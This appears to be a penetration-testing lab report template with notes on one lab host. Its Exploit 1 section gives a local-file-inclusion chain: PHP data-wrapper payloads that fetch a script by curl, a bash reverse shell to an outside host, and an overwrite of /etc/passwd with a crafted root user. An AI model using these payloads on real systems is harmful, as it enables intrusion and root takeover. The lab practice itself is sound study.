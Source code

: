 # Summary
# Location
- IP Address: 10.11.1.35
## System Information
- OS: Ubuntu
- Kernal:
- Hostname: 
- DomainName: 
- Domain Sid: 
- DNS: 
## Vulnerabilities & Attack Vectors
- Exploit 1
- Exploit 2
- Exploit 3
## Post Exploitation
- Proof
## Credentials
### OS
- uri:
- username:
- password:

## System Setup
- ICMP: Enalbed/Disabled
- Firewall: Enabled/Disabled. Will respond to ICMP?
- Essential Services: XXX (TCP XXX)
- Platform:

## Notes

# Service Enumeration
## Port Scan (Nmap)

## Key Infomation
The Nmap version scan identifies an interesting potential entrypoint, in this case, we should focus on th
Justin
Apache/2.4.6 (CentOS) PHP/5.4.16

# Exploitation
## Exploit 1
- Title: LFI
Just have a try.
http://10.11.1.35/section.php?page=../../../etc/passwd
get the passwd.

create the reverse.sh
`bash -c 'exec bash -i &>/dev/tcp/192.168.45.198/4444 <&1'`

start the http server

http://10.11.1.35/section.php?page=data:text/plain,%3C?php%20echo%20shell_exec(%22curl%20http://192.168.45.198:8888/reverse.sh%20--output%20/tmp/reverse.sh%22);?%3E

http://10.11.1.35/section.php?page=data:text/plain,<?php echo shell_exec("bash /tmp/reverse.sh");?>


openssl passwd -1 -salt pwn pass123
$1$pwn$Eluq4Of.DgY0lylwZfC0e.

pwn:$1$pwn$Eluq4Of.DgY0lylwZfC0e.:0:0:root:/root:/bin/bash

calculate the password encrypted

add the new user to passwd

upload it to the machine

http://10.11.1.35/section.php?page=data:text/plain,%3C?php%20echo%20shell_exec(%22curl%20http://192.168.45.198:8888/passwd%20--output%20/tmp/passwd%22);?%3E
or
curl http://192.168.45.198:8888/passwd -o passwd

cp passwd /etc/passwd


Login in with pwn as root


- CVE: 
- EBD-ID: 
- Link: 

## Exploit 2
- Title: 
- CVE:
- EBD-ID: 
- Link: 

## Exploit 3
- Title:
- CVE:
- Link:
